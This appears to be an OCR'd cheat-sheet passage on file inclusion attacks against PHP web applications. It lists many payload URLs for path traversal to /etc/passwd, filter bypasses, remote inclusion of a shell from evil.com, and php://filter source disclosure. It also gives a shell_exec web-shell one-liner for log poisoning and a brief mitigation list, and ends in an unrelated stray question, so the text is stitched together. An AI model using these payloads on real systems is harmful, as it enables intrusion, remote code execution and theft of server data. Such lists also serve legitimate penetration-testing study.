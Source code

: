 UTF-8 encoding

<http://example.com/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd>

<http://example.com/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd%00>

Filter bypass tricks

<http://example.com/index.php?page=....//....//etc/passwd>

<http://example.com/index.php?page=..///////..////..//////etc/passwd>

<http://example.com/index.php?page=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd>

Basic RFI

<http://example.com/index.php?page=http://evil.com/shell.txt>

Null byte

<http://example.com/index.php?page=http://evil.com/shell.txt%00>

Double encoding

<http://example.com/index.php?page=http:%252f%252fevil.com%252fshell.txt>

LFI / RFI using wrappers: Wrapper php://filter

<http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php>

<http://example.com/index.php?page=php://filter/convert.iconv.utf-8.utf-16/resource=index.php>

<http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php>

<http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php>

**hxxp://vulnerablesite.com/read_page.php?file=../../../../etc/passwd**

This lets you see what users are on the system, so maybe you can try to connect via SSH as one of those users or find more information about them. There's a lot of different things you can do with it.

**Code execution on server:**

Maybe you can also include a script that you've written to the server, or perhaps you've poisoned the access.log with code that would be executed by a preprocessor engine (such as placing \<? echo shell_exec(\$_GET["c"]); ?\> within a legitimate request that gets logged), to get remote code execution as a different user depending on the context.

**Mitigation**

1.  Input validation and sanitization: Sanitize all user inputs to remove malicious characters and code.
    1.  Secure coding practices: Avoid using functions vulnerable to file inclusion attacks.
    2.  Keep software updated: Patch vulnerabilities in web servers, frameworks, and libraries.
    3.  Restrict file access: Limit the application's ability to access sensitive files.
    4.  Use a Web Application Firewall (WAF): Implement a WAF to detect and block malicious requests.

=================

**Tell me what is authentication attacks.**
